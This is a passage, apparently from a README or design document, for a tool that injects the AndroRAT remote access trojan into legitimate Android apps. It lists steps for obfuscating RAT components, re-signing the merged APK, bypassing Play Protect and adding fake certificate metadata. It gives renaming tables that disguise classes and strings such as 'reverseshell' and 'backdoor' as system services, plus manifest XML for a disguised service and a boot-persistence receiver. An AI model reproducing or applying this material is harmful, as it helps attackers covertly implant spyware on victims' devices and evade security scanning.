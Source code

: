 5. **Code Obfuscation & Stealth**
   - Apply string obfuscation to RAT components
   - Replace suspicious strings with legitimate alternatives
   - Add startup code to existing main activity
   - Implement runtime string decryption

6. **Recompilation & Signing**
   - Rebuild merged APK using apktool
   - Attempt to preserve original signature if possible
   - Fall back to standard AndroRAT signing if needed
   - Apply post-injection evasion techniques

7. **Final Evasion Application**
   - Apply Play Protect specific bypasses
   - Inject fake certificate metadata if requested
   - Add final stealth enhancements

### Stealth Features Applied

#### Package & Class Naming
```
Original RAT Classes → Stealth Alternatives
├── MainActivity     → SystemBootReceiver
├── mainService      → DeviceManagerService  
├── config           → SystemConfiguration
├── controlPanel     → DeviceSecurityManager
├── tcpConnection    → NetworkDiagnostics
└── broadcastReceiver → SystemEventHandler
```

#### String Obfuscation
```
Suspicious Strings → Legitimate Alternatives
├── "shell"         → "system_process"
├── "reverseshell"  → "network_service"
├── "tcp"           → "network"
├── "rat"           → "service"
├── "payload"       → "data"
├── "exploit"       → "optimize"
└── "backdoor"      → "background_service"
```

#### Manifest Additions
```xml
<!-- Stealth Services -->
<service android:name="com.android.system.services.DeviceManagerService"
         android:enabled="true"
         android:exported="false"
         android:label="System Optimization Service" />

<!-- Persistence Receivers -->
<receiver android:name="com.android.system.services.SystemBootReceiver"
          android:enabled="true"
          android:exported="true">
    <intent-filter android:priority="1000">
        <action android:name="android.intent.action.BOOT_COMPLETED" />
        <action android:name="android.intent.action.MY_PACKAGE_REPLACED" />
    </intent-filter>
</receiver>
```
